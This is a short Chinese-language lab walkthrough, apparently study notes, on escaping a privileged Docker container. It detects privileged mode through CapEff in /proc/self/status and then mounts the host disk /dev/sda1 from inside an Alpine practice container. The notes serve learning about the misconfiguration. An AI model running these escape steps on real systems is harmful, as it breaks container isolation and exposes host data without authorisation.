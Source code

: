 配置不当--特权模式

运维人员在启动容器得时候，是以root权限启动得就造成特权逃逸

特权模式通常是指以root用户或具有特殊权限的用户身份运行的进程

启动靶场：docker run --rm --privileged=true -it alpine

 

检测\[只要输出； 其中一段就是特权\]

```shell
cat /proc/self/status \| grep CapEff \| grep -E '0000003fffffffff\|0000001fffffffff'
```

![image-20231202152343259](./assets/image-20231202152343259.png)

 
```shell
fdisk -l 查看目录
```

![image-20231202152346820](./assets/image-20231202152346820.png)
```shell

特权逃逸：mkdir /test1 && mount /dev/sda1 /test1

判断结果：cd /test1/ && ls
```
 

![image-20231202152350280](./assets/image-20231202152350280.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
